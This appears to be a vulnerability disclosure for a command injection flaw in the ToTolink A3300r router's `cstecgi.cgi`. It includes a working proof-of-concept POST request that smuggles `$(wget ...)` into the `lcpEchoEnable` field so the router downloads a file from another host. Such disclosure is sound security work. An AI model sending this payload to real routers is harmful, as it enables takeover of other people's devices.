



# ToTolink A3300r Vulnerability

Vendor:ToTolink

Product:A3300r

Affected Version: V17.0.0cu.557_B20221024

Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

Vulnerability: Command Injection

Type:Command Injection Attack

CVE: TBD


## Descriptions

We found a command injection vulnerability  in `cstecgi.cgi` that could be triggered by an attacker through carefully crafted packet requests:


<div  align="center"></div>

The sub_422380 function defines a variable `lcpEchoEnable`, retrieves its value from the request  packet, and passes its value to the Uci_Set_Str function.

<div  align="center"></div>

This function uses the sprintf function to concatenate it into v11, and finally passes the result to CsteSystem for processing.

<div  align="center"></div>

However,the CsteSystem function wraps the command and then passes it to execv to execute the command.


## Proof of Concept (PoC)

We set `lcpEchoEnable` as **1$(wget 192.168.6.1:8888/testpoc)** ,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 216
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Origin: http://192.168.6.2
Referer: http://192.168.6.2/wizard.html?token=
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"hostName":"TOTOLINK","dhcpMtu":"1500","proto":1,"dnsMode":"0","ttlWay":"1","lcpEchoEnable":"1$(wget 192.168.6.1:8888/testpoc)","option60Enable":"0","clone":"0","cloneMac":"40:EE:15:D4:88:6D","topicurl":"setWanCfg"}
```

## outcome
<div  align="center"></div>